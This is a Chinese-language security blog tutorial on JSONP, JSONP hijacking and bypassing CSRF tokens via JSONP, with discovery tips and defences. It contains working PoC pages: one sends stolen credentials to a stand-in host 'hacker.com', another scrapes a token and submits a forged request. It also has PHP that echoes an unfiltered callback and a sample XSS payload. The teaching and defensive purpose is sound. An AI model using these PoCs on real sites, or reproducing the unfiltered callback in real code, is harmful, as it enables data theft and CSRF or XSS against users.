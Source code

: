 # jsonp介绍及其安全风险




## 简介

JSONP全称是`JSON with Padding` ，是基于JSON格式的为解决跨域请求资源而产生的解决方案。**他实现的基本原理是利用了HTML里script元素标签没有跨域限制**

**JSONP原理：**就是动态插入带有跨域url的script标签，然后调用回调函数，把我们需要的json数据作为参数传入，通过一些逻辑把数据显示在页面上。



比如通过script访问`http://www.test.com/index.html?jsonpcallback=callback`, 执行完script后，会调用callback函数，参数就是获取到的数据。

原理简介的例子：新建`callback.php`

```php
<?php
    header('Content-type: application/json');
    $callback = $_GET["callback"];
    //json数据
    $json_data = '{"user":"user1111","password":"12345678"}';
    //输出jsonp格式的数据
    echo $callback . "(" . $json_data . ")";
?>

```

新建`test.html`

```html
<!-- test.html -->

<html>
<head>
<title>Test</title>
<meta charset="utf-8">

<script type="text/javascript">
	function fun(obj){
		alert(obj["password"]);
	}
</script>
</head>

<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=fun"></script>
</body>
</html>

```

访问test.html，页面会执行script，请求`http://127.0.0.1/callback.php?callback=fun`，然后将请求的内容作为参数，执行fun函数，fun函数将请求的内容alert出来。这样我们就实现了通过js操作跨域请求到的资源，绕过了同源策略。

![alert](http://image.xpshuai.cn/img/image-20220112223611220.png)





## JSONP劫持

> JSONP劫持类似于CSRF漏洞

JSONP使用不当也会造成很多安全问题。

对于JSONP传输数据，正常的业务是用户在B域名下请求A域名下的数据，然后进行进一步操作。

但是对A域名的请求一般都需要身份验证，Hacker可以自己构造一个页面，诱惑用户去点击（在这个页面里，我们去请求A域名资源，然后回调函数将请求到的资源发回到hacker服务器上），以此来获取这些信息。



![jsonp漏洞用过程](http://image.xpshuai.cn/img/image-20220112223806037.png)



POC如：test.html

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
<script type="text/javascript">
    function fun(obj){
        var myForm = document.createElement("form");
        myForm.action="http://hacker.com/redirect.php";
        myForm.method = "GET";  
        for ( var k in obj) {  
            var myInput = document.createElement("input");  
            myInput.setAttribute("name", k);  
            myInput.setAttribute("value", obj[k]);  
            myForm.appendChild(myInput);  
        }  
        document.body.appendChild(myForm);  
        myForm.submit();  
        document.body.removeChild(myForm);
    }
</script>
</head>
<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=fun"></script>
</body>
</html>

```

诱导用户去访问此html，会以用户的身份访问`http://localhost/callback.php?callback=fun`,拿到敏感数据，然后执行fun函数，将数据发送给`http://hacker.com/redirect.php`。

然后hacker只需要在redirect.php里，将数据保存下来，然后重定向到baidu.com，堪称一次完美的JSONP劫持。



## 利用JSONP绕过token防护进行csrf攻击

场景假设：服务端判断接收到的请求包，如果含有callback参数就返回JSONP格式的数据，否则返回正常页面。代码如下：test.php

```php
<!-- callback.php -->

<?php
    header('Content-type: application/json');
    //json数据
    $json_data = '{"customername1":"user1","password":"12345678"}';
    if(isset($_GET["callback"])){
        $callback = $_GET["callback"];
        //如果含有callback参数，输出jsonp格式的数据
        echo $callback . "(" . $json_data . ")";
    }else{
        echo $json_data;
    }
?>
```

对于场景，如果存在JSONP劫持劫持，我们就可以获取到页面中的内容，提取出csrf_token，然后提交表单，造成csrf漏洞。示例利用代码如下：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
</head>
<body>
<div id="test"></div>
<script type="text/javascript">
function test(obj){
    // 获取对象中的属性值
    var content = obj['html']
    // 正则匹配出参数值
    var token=content.match('token = "(.*?)"')[1];
    // 添加表单节点
    var parent=document.getElementById("test");
    var child=document.createElement("form");
    child.method="POST";
    child.action="http://vuln.com/del.html";
    child.id="test1"
    parent.appendChild(child);
    var parent_1=document.getElementById("test1");
    var child_1=document.createElement("input");
    child_1.type="hidden";child_1.name="token";child_1.value=token;
    var child_2=document.createElement("input");
    child_2.type="submit";
    parent_1.appendChild(child_1);
    parent_1.appendChild(child_2);
}
</script>
<script type="text/javascript" src="http://vuln.com/caozuo.html?htmlcallback=test"></script>
</body>
</html>
```

htmlcallback返回一个对象obj，以该对象作为参数传入test函数，操作对象中属性名为html的值，正则匹配出token，再加入表单，自动提交表单完成操作，用户点击该攻击页面即收到csrf攻击。





## JSONP劫持挖掘

首先需要尽可能的找到所有的接口，尤其是返回数据格式是JSONP的接口。(可以在数据包中检索关键词callback json jsonp email等，也可以加上callback参数，观察返回值是否变化)。

找到接口之后，还需要返回值包含敏感信息，并且能被不同的域的页面去请求获取(也就是是否存在refer限制,实际上，如果接口存在refer的限制，也是有可能被绕过的)





## 防御

- 限制来源refer
- 按照JSON格式标准输出（设置Content-Type : application/json; charset=utf-8），预防`http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>`形式的xss
- 过滤callback函数名以及JSON数据输出，预防xss





## 参考文章

[jsonp介绍及其安全风险 - SAUCERMAN (saucer-man.com)](https://saucer-man.com/information_security/309.html#) 还是这位大佬写得好，小弟基本全是看的他的

[JSONP 劫持原理与挖掘方法 | K0rz3n's Blog](https://www.k0rz3n.com/2019/03/07/JSONP 劫持原理与挖掘方法/)

[JSONP绕过CSRF防护token - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/5143)

[分享一个jsonp劫持造成的新浪某社区CSRF蠕虫 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/HTML/sina-jsonp-hijacking-csrf-worm.html#)

[JSONP 安全攻防技术 - 知道创宇 (knownsec.com)](https://blog.knownsec.com/2015/03/jsonp_security_technic/)







---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/jsonp%E4%BB%8B%E7%BB%8D%E5%8F%8A%E5%85%B6%E5%AE%89%E5%85%A8%E9%A3%8E%E9%99%A9/  

